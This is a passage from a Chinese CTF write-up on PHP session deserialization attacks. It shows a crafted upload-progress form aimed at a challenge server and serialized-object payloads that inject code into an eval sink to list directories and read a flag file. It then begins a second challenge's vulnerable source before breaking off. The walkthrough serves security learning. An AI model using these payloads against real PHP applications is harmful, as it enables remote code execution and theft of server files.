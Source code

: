> PHP手册
> Session 上传进度
> 当 session.upload_progress.enabled INI 选项开启时，PHP 能够在每一个文件上传时监测上传进度。 这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态
> 当一个上传在处理中，同时POST一个与INI中设置的session.upload_progress.name同名变量时，上传进度可以在\$_SESSION中获得。 当PHP检测到这种POST请求时，它会在$_SESSION中添加一组数据, 索引是 session.upload_progress.prefix 与 session.upload_progress.name连接在一起的值。

了解了之后，就可以通过POST方法来构造数据传入`$_SESSION`
构造POST提交表单

```
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

构造序列化字符串

```
<?php
class OowoO
{
    public $mdzz='print_r(dirname(__FILE__));';
}
$obj = new OowoO();
$a = serialize($obj);

var_dump($a);
```

注意需要转义，抓包吧filename改为payload
最终提交为：`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:27:\"print_r(dirname(__FILE__));\";}`
[![img](C:\Users\24993\Desktop\博客文章\static\1545276025699.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/12/20/PHP反序列化/1545276025699.png?raw=true)
目录/opt/lampp/htdocs
`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}`继续读
[![img](C:\Users\24993\Desktop\博客文章\static\1545276188010.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/12/20/PHP反序列化/1545276188010.png?raw=true)
然后用`file_get_contents`函数读flag
`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}`
[![img](C:\Users\24993\Desktop\博客文章\static\1545276523785.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/12/20/PHP反序列化/1545276523785.png?raw=true)

#### 安洵杯Double-S

也是类似的一道session反序列化的题

```
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class Anti
{
    public $info;
    function __construct()
    {
        $this->info = 'phpinfo();';
    }
    function __destruct()
    {
        eval($this->info);
    }
}
if(isset($_GET['aa']))
{
```